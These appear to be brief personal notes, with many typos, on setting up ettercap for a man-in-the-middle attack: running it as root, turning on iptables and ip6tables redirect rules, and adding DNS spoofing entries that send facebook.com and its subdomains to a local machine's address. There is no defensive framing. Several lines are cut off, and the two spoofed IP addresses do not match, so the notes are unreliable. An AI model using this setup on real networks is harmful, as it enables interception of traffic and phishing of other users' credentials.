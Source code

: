 # seguridad
seguridad-informatica
go edti to file confir etter

nano /etc/ettercap/etter.conf

eddit:

ec_uid = 0              
ec_gid = 0

ENABLE ROUTING and IPV& redirect

# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -s %source -d %destination --dport %port -j REDIRECT --to-p>
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -s %source -d %destination --dport %port -j REDIRECT --to->

# pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
   redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -s %source -d %destination --dport %port -j REDIRECT --to>
   redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -s %source -d %destination --dport %port -j REDIRECT --t>



ADdDD NAME SERVER for redirect to nmy machine
////////////7


facebook.com      A   192.168.0.105
*.facebook.com    A   192.168.9.105
#www.microsoft.com  PTR 107.170.40.56      # Wildcards in PTR are not allowed


//////////////


